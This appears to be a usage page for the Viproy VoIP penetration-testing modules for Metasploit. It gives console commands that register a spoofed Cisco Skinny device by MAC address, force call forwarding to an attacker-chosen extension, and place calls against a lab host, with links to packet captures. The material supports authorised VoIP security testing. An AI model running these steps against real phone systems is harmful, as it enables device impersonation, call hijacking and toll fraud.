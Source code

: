 # Skinny Modules Usage

## Skinny Registration

use auxiliary/voip/viproy_skinny_register <br>
set RHOST 192.168.0.205<br>
set MAC 000C29BF1895<br>
show options<br>
run<br>

set MAC 000C29E58CA3<br>
run<br>

http://www.viproy.com/captures/skinny_register.pcapng<br>

## Skinny Call Forward

use auxiliary/voip/viproy_skinny_callforward <br>
set RHOST 192.168.0.205<br>
set FORWARDTO 1013<br>
set MAC 000C29E58CA3<br>
set ACTION FORWARD<br>
show options <br>
run<br>

http://www.viproy.com/captures/skinny_callforward.pcapng<br>

## Skinny Call

use auxiliary/voip/viproy_skinny_call<br>
set MAC 000C29E58CA3<br>
set TARGET 1013<br>
show options <br>
set RHOST 192.168.0.205<br>
run<br>

http://www.viproy.com/captures/skinny_call.pcapng<br>
